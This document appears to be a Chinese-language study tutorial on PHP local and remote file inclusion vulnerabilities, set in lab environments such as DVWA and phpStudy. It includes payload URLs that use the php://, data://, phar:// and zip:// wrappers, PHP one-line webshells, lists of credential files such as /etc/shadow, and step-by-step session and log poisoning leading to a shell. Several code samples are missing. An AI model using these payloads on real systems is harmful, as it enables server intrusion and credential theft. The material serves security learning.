







文件包含漏洞学习
文件包含漏洞相关知识点
什么是文件包含？
服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP执行，这会为开发者节省大量的时间。这意味着您可以创建供所有网页引用的标准页眉或菜单文件。当页眉需要更新时，您只更新一个包含文件就可以了，或者当您向网站添加一张新页面时，仅仅需要修改一下菜单文件（而不是更新所有网页中的链接）。
文件包含函数
- require()
- require_once()
- include()
- include_once()
include和require区别:include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。
而include_once()，require_once()这两个函数，与前两个的不同之处在于这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

漏洞产生的原因
文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致执行了非预期的代码。
示例代码：
1 |
|
$_GET['filename']参数开发者没有经过严格的过滤，直接带入了include的函数，攻击者可以修改$_GET['filename']的值，执行非预期的操作。
分类
文件包含分为：本地(LFI)/远程(RFI)包含
本地文件包含漏洞，顾名思义，指的是能打开并包含本地文件的漏洞。大部分情况下遇到的文件包含漏洞都是LFI。简单的测试用例如前所示。
远程文件包含漏洞。是指能够包含远程服务器上的文件并执行。由于远程服务器的文件是我们可控的，因此漏洞一旦存在危害性会很大。
但RFI的利用条件较为苛刻，需要php.ini中进行配置
1 | allow_url_fopen = On |
两个配置选项均需要为On，才能远程包含文件成功。
另外一台需要开启apache
1 | apt-get install apache2 |


注：在php.ini中，allow_url_fopen默认一直是On，而allow_url_include从php5.2之后就默认为Off。
下面例子中测试代码均为：
1 |
|
allow_url_fopen 默认为 On
allow_url_include 默认为 Off
若有特殊要求，会在利用条件里指出。
本地文件包含漏洞
一、无限制本地文件包含漏洞
测试代码：
1 |
|
常见的敏感信息目录：
window系统：
- c:\boot.ini //查看系统版本
- c:\windows\system32\inetsrv\MetaBase.xml //IIS配置
- c:\windows\repair\sam // 存储Windows系统初次安装的密码
- c:\ProgramFiles\mysql\my.ini // MySQL配置
- c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
- c:\windows\php.ini // php 配置信息
Linux系统
- /etc/passwd // 账户信息
- /etc/shadow // 账户密码文件
- /usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件
- /etc/my.conf // mysql 配置文件
二、session文件包含漏洞
利用条件
1.我们可以通过phpinfo的信息泄露获取到session的存储位置

2.或者通过猜测默认的session存放位置
linux下的默认存储目录为/var/lib/php/session
利用过程
我们可以先使用文件包含上传恶意代码，比如
1 |
|
此php会将获取到的GET型ctfs变量的值存入到session中。如果存在本地文件包含漏洞，就可以通过ctfs写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码。
我们构造：
我们发现在本地session所在目录下存储了session的值

攻击者通过phpinfo()信息泄露或者猜测获取到session存放的目录位置，然后通过浏览器自带开发者模式获取到文件名称：sess_lotipf7ccidsbsrltdau35rb65
构造本地文件包含 ：file.php?D:\phpStudy\PHPTutorial\tmp\tmp\sess_lotipf7ccidsbsrltdau35rb65

三、有限制本地文件包含漏洞绕过
%00截断
条件：magic_quotes_gpc=Off 并且php版本<5.3.4
测试代码
1 |
|
当我们直接包含本地的test.txt时
我们在test.txt加上%00进行截断
四、路径长度限制
条件：windows OS,点号需要长于256；linuxOS 长于4096
1 | windows下目录最大长度为256字节，超出的部分会被丢弃； |
测试代码：
1 |
|
远程文件包含漏洞
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。
1 | allow_url_fopen = On（是否允许打开远程文件） |
示例：
测试代码：
1 |
|

PHP伪协议在文件包含中的应用
PHP带有很多内置URL风格的封装协议，可用于类似fopen()、copy()、file_exists()和filesize()的文件系统函数。除了这些封装协议、还能通过stream_wrapper_register() 来注册自定义的封装协议。
php伪协议类别
- file:// 访问本地文件系统
- http:// 访问HTTP（s)网址
- ftp:// 访问FTP(s) URLs
- php:// 访问各个输入/输出流
- zlib:// 压缩流
- data:// 数据
php://filter(本地磁盘文件进行读取）
元封装器，设计用于“数据流打开“时的”筛选过滤“应用，对本地磁盘文件进行读写。
用法：?filename=php://filter/convert.base64-encode/resource=xxx.php
条件：需要开启allow_url_fopen
示例：
本地新建file.php

我们使用php伪协议在本地读取shell.php文件中的内容

对得到的Base64进行解码即可。
file://伪协议（读取文件内容）
通过file协议可以访问本地文件系统，读取到文件的内容
示例：
php://input
可以访问请求的原始数据的只读流。即可以直接读取到POST上没有经过解析的原始数据。 enctype=”multipart/form-data” 的时候 php://input 是无效的。
用法：?file=php://input 数据利用POST传过去。
利用条件：
allow_url_include = On。
对allow_url_fopen不做要求
1 | phpinfo(); |
包含姿势：
1 | index.php |
php://input （读取POST数据）
碰到file_get_contents()就要想到用php://input绕过，因为php伪协议也是可以利用http协议的，即可以使用POST方式传数据，具体函数意义下一项；
测试代码：
1 |
|
php://input(命令执行)
测试代码：
1 |
|
条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.30）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行；

data://伪协议
数据流封装器，和php://相似都是利用了流的概念，将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的。
利用条件：
php版本大于等于php5.2
allow_url_fopen = On
allow_url_include = On
示例1：
1 | /index2.php?file=data:text/plain,php phpinfo(); |

执行命令：
1 | index2.php?file=data:text/plain;php system("whoami"); |

示例2：
1 | /index2.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b |
加号+的url编码为%2b，PD9waHAgcGhwaW5mbygpOz8+的base64解码为：
包含session
利用条件：session文件路径已知，且其中内容部分可控。
思路：结合phpmyadmin,因为phpmyadmin每次登录时，会带上session。

session文件的绝对路径可在phpinfo中查看，session.save_path

常见的php-session存放位置还有这几个：
1 | /var/lib/php/sess_PHPSESSID |
使用以下命令可查看到session文件中的登录信息
1 | strings /var/lib/php5/sess_258c1be1b00d080bddc58d2896460542facb6f1f | grep root |

登录phpmyadmin时，用户名输入一句话木马，再包含session文件，可getshell
1 | @eval($_POST['root']); |


使用菜刀连接
http://192.168.1.127/dvwa/vulnerabilities/fi/?page=../../../../../../var/lib/php5/sess_6cf7f14ec1e50c6b2f6d4a8ec671e7aaf92c6c4c
在浏览器里有你的cookie所以你可以直接去访问对应的文件包含页面，用菜刀的话是没有cookie的所以你没有办法去访问文件包含页面也就是fi那个页面。所以说会自动跳转到登录页面，显示200ok
加上cookie之后在重新连接，成功连接

phar伪协议
利用条件：php版本大于等于php5.3.0
这个参数就是php解压缩包的一个函数，不管后缀是什么，都会被当做压缩包来解压。
用法：?file=phar://压缩包/内部文件 phar://xxx.png/shell.php
注意： PHP > =5.3.0 压缩包需要是zip协议压缩，rar不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。 步骤： 写一个一句话木马文件shell.php，然后用zip协议压缩为shell.zip，然后将后缀改为png等其他格式。
姿势：假设有个文件phpinfo.txt，其内容为，打包成zip压缩包，如下：

指定绝对路径：
1 | index2.php?file=phar://C:\phpStudy\WWW\FileInclusion\phpinfo.zip\phpinfo.txt |
或者利用相对路径（这里phpinfo.zip就在当前目录下）
1 | index2.php?file=phar://phpinfo.zip/phpinfo.txt |

zip：//伪协议
php版本大于等于php5.3.0
zip伪协议和phar协议类似，但是用法不一样。
用法：?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名] zip://xxx.png#shell.php
条件： PHP > =5.3.0，注意在windows下测试要5.3.0<PHP<5.4 才可以 #在浏览器中要编码为%23，否则浏览器默认不会传输特殊字符。
1 | index2.php?file=zip://C:\phpStudy\WWW\FileInclusion\phpinfo.zip%23phpinfo.txt |
本地包含配合文件上传
如果目标服务器关闭了allow_url_fopen，则可以尝试使用本地包含+文件上传
上传一个图片木马a.jpg，内容为：
1 | fputs(fopen("shell.php","w"),"<?php eval($_POST[tzc]);?>") |
包含日志文件
当我们没有上传点，并且也没有url_allow_include功能时，我们就可以考虑包含服务器的日志文件。
利用思路也比较简单，当我们访问网站时，服务器的日志中都会记录我们的行为，当我们访问链接中包含PHP一句话木马时，也会被记录到日志中。
这时候我们如果知道服务器的日志位置，我们可以去包含这个文件从而拿到shell。其实整个“包含日志文件漏洞利用”最关键的就是找日志存放的“物理路径”，只要找到日志的物理存放路径，一切就可以按部就班的完成利用了。
利用的条件：
- 1.日志的物理存放路径
- 2.存在文件包含漏洞
获取日志存放路径
（一）日志默认路径
(1) apache+Linux日志默认路径
1 | /etc/httpd/logs/access_log |
或者
1 | /var/log/httpd/access_log |
(2) apache+win2003日志默认路径
1 | D:\xampp\apache\logs\access.log |
(3) IIS6.0+win2003默认日志文件
1 | C:\WINDOWS\system32\Logfiles |
(4) IIS7.0+win2003 默认日志文件
1 | %SystemDrive%\inetpub\logs\LogFiles |
(5) nginx 日志文件
1 | 日志文件在用户安装目录logs目录下 |
首先，我们直接使用浏览器来构造“php一句话报错请求信息”服务自动记录此一句话信息到服务器日志文件中；
具体构造内容：
1 | http://127.0.0.1:81/FileInclusion/index2.php?file= @eval($_POST[c]); |

（2）测试结果：失败
利用文件包含漏洞直接访问“服务日志文件”，发现文件包含漏洞并未对构造的php一句话进行正常解析，观察发现是构造的PHP一句话中的相关字符在记录进日志文件后，相关的字符被转码了，导致PHP解析失败，具体失败原因见“失败原因分析”

image.png（3）失败原因分析
一句话写入日志文件的利用过程是，利用浏览器直接构造一个关于请求资源的报错信息，消息中包含依据。报错信息服务自动记录到日志文件，但实际测试发现写入日志文件内的报错信息发生了字符转码：
日志文件内容如上图所示：
1 | http://127.0.0.1:81/FileInclusion/index2.php?page=%3C?php%20@eval($_POST[c]);?%3E |
1 | "<" ----> 大于号被转码为了 %3C |
最后写入到日志文件中的一句话就变成了 %3C?php%20@eval($_POST[c]);?%3E。
（4） 失败总结
浏览器直接构造的PHP一句话中特殊字符，会被浏览器自动进行URL转义，导致最终写入日志文件中的PHP一句话包含了这些特殊字符，而这些转码后的编码PHP并不能进行正常的解析。
（5）构造一句话，写入日志文件测试记录
burpsuit 代理抓包改包构造一句话写入日志文件
（1） burpsuit 代理抓包，修改浏览器转码字符，写入正确的php一句话木马到服务器日志文件。

（2） 测试记录：成功
通过文件包含直接访问服务日志文件，发现一句话被执行成功；

在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log，还可以包含Apache的错误访问日志
首先，构造一个会报错的访问链接，将利用代码（PHP一句话）写入错误日志记录中
1 | http://127.0.0.1:81/FileInclusion/index2.php%3C?php%20@eval($_POST[c]);?%3E |
这个链接直接访问的话，一句话会被编码成%3C?php%20@eval($_POST[c]);?%3E，所以需要使用Burp suite改一下包。

对所截获的包进行修改，点击go，返回403报错，服务器错误日志文件成功将此次记录到error.log中
我们根据日志的路径构造访问路径:
1 | http://127.0.0.1:81/FileInclusion/index2.php?file=C:/phpStudy/Apache/logs/access.log |
客户端连接，获取一句话木马
SSH log
利用的条件：
利用条件：需要知道ssh-log的位置，且可读。默认情况下为 /var/log/auth.log
姿势：
用ssh连接：
参考这个网站
包含临时文件
jsp文件包含漏洞
include
1 | <%@ include file="head.jsp"%> |
jsp:include
1 | <jsp:include page="head.jsp"/> |
采用JSTL
1 | <c:import url="http://thief.one/1.jsp"> |
asp文件包含漏洞
asp貌似无法包含远程文件（iis安全设置），只能包含本地文件，语法如下：
1 | <!--#include file="1.asp" --> |
aspx文件包含漏洞
aspx文件包含与asp一样，语法如下：
1 | <!--#include file="top.aspx" --> |
参考文章：
https://www.jianshu.com/p/8803aff98bfa